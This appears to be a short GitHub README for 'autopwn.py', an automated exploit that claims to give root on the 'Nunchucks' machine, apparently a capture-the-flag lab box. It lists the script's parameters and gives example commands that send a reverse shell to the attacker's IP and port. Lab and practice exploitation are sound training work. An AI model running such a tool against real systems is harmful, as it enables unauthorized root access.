 # Nunchucks
Autopwn.py will give you root permissions of the Nunchucks machine when you run it. If you want to run this exploit you will have to specify 3 parameters:
- Host IP: Nunchucks host IP.
- Your own IP: Necessary to receive a reverse shell.
- Your own Port: Port where you are listening.

Example of use:

python3 autopwn.py <Host_IP> <Your_IP> <Your_Port>

python3 autopwn.py 10.10.10.10 10.10.16.8 9999
